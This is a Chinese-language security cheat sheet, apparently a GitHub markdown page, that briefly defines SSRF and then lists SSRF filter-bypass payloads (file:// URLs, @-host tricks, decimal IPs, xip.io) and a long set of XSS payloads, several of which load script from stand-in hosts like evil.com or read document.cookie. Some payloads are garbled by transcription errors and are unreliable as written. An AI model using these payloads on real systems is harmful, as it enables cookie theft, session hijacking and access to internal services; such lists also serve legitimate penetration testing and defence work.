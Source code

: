 ## SSRF&XSS
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等
```

admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php
file://user@evil.com:80@www.google.com//var/www/html/index.php%23
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
       
```
## XSS

## 常见payload

```
高版本的jQuery 可以使用sourceMappingURL来加载
- </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
- <script>alert(1);</script>
- <img src=0 onerror=alert(1)>
- "><script src=http://www.xxx.com/1.js></script>"
- "></iframe><script>alert(123)></script>
- <body onLoad="while(true) alert("XSS"),">
- "></tile><script>alert(1111)</script>
- </textarea>'"><script>alert(document.cookie)</script>
- '""><script language="JavaScript"> alert("X \nS \nS"),</- script>
- </script></script><<<<script><>>>><<<script>alert(123)</- script>
- <html><noalert><noscript>(123)</noscript><script>(123)</- script>
- <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
- '></select><script>alert(123)</script>
- '>'><script src='http://www.evil.com/XSS.js'></script>
- }</style><script>a=eval;b=alert;a(b(/XSS/.source));</- script>
- <SCRIPT>document.write("XSS");</SCRIPT>
- a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
- ='><script>alert("XSS")</script>
- <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
- <body backgroud=jabascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
- ">XaDoS/><script>alert(document.cookie)</script><script - src="http://www.site.com/X
- Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
- "<marquee><img src=k.png onerror=alert(/XSS/)/>
- "<marquee><img src=k onerror=alert(/XSS/)>
- '"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
- </div><script>alert(123)</script>
- "><iframe src="javascript:alert(document.cookie)- '><iframe>
- <div style="backgroud:url("javascript:alert(I)')">
- <img src="java\nascript:alert(\"XSS\")">
- >"><img src="javascript:alert("XSS")">
- "style="background:url(javascript:alert(/XSS/))"
- >"><script>alert(/XSS/)</script>
- "></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html